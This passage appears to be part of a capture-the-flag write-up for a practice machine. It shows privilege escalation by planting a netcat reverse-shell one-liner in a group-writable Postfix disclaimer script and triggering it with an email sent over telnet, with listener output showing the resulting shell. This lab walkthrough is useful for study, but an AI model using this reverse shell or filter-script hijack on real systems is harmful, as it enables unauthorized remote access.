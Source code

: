 Looking at listening ports reveals that port 25 is listening locally
Using pspy, see that root is copying a script with a cron
```bash
2021/09/27 17:30:01 CMD: UID=0    PID=5463   | /bin/sh -c /usr/bin/cp /root/.scripts/master.cf /etc/postfix/master.cf 
```
Checking out this config file reveals that it contains configurations for the mail service running on this box (port 25)
- It also shows where the config file is for user john 
```
flags=Rq user=john argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
```
Now check out the config file for john @ /etc/postfix/disclaimer
- this file is writable for root, which doesn't help, but it's also writable by the group fiter, which user kyle is in
- Don't understand what's going on here super well, but the bang at the top of the file indicates it gets executed
- Insert a reverse shell one-liner and then use telnet to send an email from john to john

One-liner inserted:
```bash
#!/bin/sh
# Localize these.
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail

# Get disclaimer addresses
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# Exit codes from <sysexits.h>
EX_TEMPFAIL=75
EX_UNAVAILABLE=69

[snip]
```
Send the email using telnet:
```bash
kyle@writer:~$ telnet localhost 25
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
220 writer.htb ESMTP Postfix (Ubuntu)
ehlo writer.htb

[snip]

mail from: john@writer.htb
250 2.1.0 Ok
rcpt to: john@writer.htb
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
hello there
.
250 2.0.0 Ok: queued as 1D1947E5
```
Call back on netcat:
```bash
-> % nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.102] from (UNKNOWN) [10.10.11.101] 36442
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(john) gid=1001(john) groups=1001(john)
```
